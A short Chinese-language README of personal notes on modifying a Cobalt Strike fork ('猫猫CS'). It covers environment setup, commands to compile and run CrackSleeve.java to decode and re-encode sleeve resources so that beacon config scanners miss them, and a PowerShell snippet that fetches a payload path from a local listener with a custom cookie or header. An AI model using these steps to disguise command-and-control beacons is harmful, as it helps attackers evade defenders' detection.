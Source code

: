 简单记录自己二开CS的一些注意事项，以防止遗忘.

注意：全部基于猫猫CS进行二开

## [二开CS的环境配置](https://pingmaoer.github.io/2020/06/24/CobaltStrike%E4%BA%8C%E6%AC%A1%E5%BC%80%E5%8F%91%E7%8E%AF%E5%A2%83%E5%87%86%E5%A4%87/)

```md
"Main Class" 处需要填写 Cobaltstrike.java
```

## Bypass cobaltstrike beacon config scan

[文章链接](https://cloud.tencent.com/developer/article/1764340)

[IDA文本搜索](https://blog.csdn.net/hgy413/article/details/6956847)

注意：

- 不要使用文章里的CrackSleeve.java，要使用Code文件夹下的CrackSleeve.java

- 所使用的两条命令(依旧不使用文章里的)：

  D:\Soft1\jdk\jdk17\bin\javac.exe -encoding UTF-8 -classpath cat_client.jar CrackSleeve.java

  D:\Soft1\jdk\jdk17\bin\java.exe -classpath cat_client.jar CrackSleeve

  D:\Soft1\jdk\jdk17\bin\java.exe -classpath CS_Client.jar CrackSleeve.java encode

## 自定义header头

```md

powershell:
复杂版本(能添加cookie):
$sess = New-Object Microsoft.PowerShell.Commands.WebRequestSession;
$cookie = New-Object System.Net.Cookie;
$cookie.Name = "baidu";
$cookie.Value = "123456789";
$cookie.Domain = (New-Object Uri($url)).Host;
$sess.Cookies.Add($cookie);
irm -Uri "http://127.0.0.1:80/sb" -WebSession $sess


简洁版本(但不能添加cookie,有点鸡肋):
irm -Uri "http://127.0.0.1:80/sb" -Headers @{Authorization = "Bearer token"}
```

